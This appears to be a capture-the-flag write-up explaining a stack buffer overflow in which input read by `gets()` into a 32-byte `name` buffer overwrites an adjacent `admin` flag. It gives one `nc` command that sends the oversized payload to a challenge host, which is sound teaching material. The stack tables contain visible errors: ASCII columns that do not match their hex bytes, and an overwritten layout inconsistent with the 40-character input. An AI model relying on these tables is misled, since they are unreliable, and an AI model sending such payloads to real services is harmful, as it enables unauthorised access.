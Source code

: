 
## Writeup

The source [file](../src/vuln.c) contain two variables located on the stack; `name` and `admin`.
`name` is the 32-bytes sized input buffer we are writing into with the vulnerable function `gets()`.
`admin` is our overflow target variable which we want to overwrite with any other value than `"\0"` as input.

The following is a depiction of the stack:

|  Mem.Addr./Variables |  Hex-values (8 bytes/row) |      Ascii Characters    |
|---------------------:|:-------------------------:|:------------------------:|
|                  rip |  00 7f fd 13 76 d6 ff 00  |   .  .  ý  .  v  Ö  ÿ  . |
|                  rbp |  00 7f ff f1 37 6d 88 00  |   .  .  ÿ  ñ  7  m  .  . |
|  &admin / &name + 40 |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
| padding / &name + 32 |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|           &name + 24 |  02 00 00 00 00 00 00 00  |   . \0 \0 \0 \0 \0 \0 \0 |
|           &name + 16 |  ff fb 8b 1f 00 00 00 00  |   Ù  E  æ  J  ü  .  .  . |
|           &name +  8 |  d9 45 e6 4a fc 7f 00 00  |  \0  E \0  J \0 \0 \0 \0 |
|           &name      |  64 00 00 00 00 00 00 00  |   d \0 \0 \0 \0 \0 \0 \0 |

Therefore, we need to input at least 41 characters where the 41st one is not `"\0"`, e.g.
```bash
echo "0000111122223333444455556666777788889999<non-zero-bytes>" | nc <host> 9001
```

And this will edit the above table into:

|  Mem.Addr./Variables |  Hex-values (8 bytes/row) |     Ascii Characters     |
|---------------------:|:-------------------------:|:------------------------:|
|                  rip |  00 7f fd 13 76 d6 ff 00  |   .  .  ý  .  v  Ö  ÿ  . |
|                  rbp |  00 7f ff f1 37 6d 88 00  |   .  .  ÿ  ñ  7  m  .  . |
|  &admin / &name + 40 |  00 00 00 00  {non-zero}  |  \0 \0 \0 \0  {non-zero} |
| padding / &name + 32 |  00 00 00 00 00 00 00 00  |  \0 \0 \0 \0 \0 \0 \0 \0 |
|           &name + 24 |  37 37 37 37 36 36 36 36  |   7  7  7  7  6  6  6  6 |
|           &name + 16 |  35 35 35 35 34 34 34 34  |   5  5  5  5  4  4  4  4 |
|           &name +  8 |  33 33 33 33 32 32 32 32  |   3  3  3  3  2  2  2  2 |
|           &name      |  31 31 31 31 30 30 30 30  |   1  1  1  1  0  0  0  0 |

Compile and run this test [file](dump.c) for a more code and output explanation.

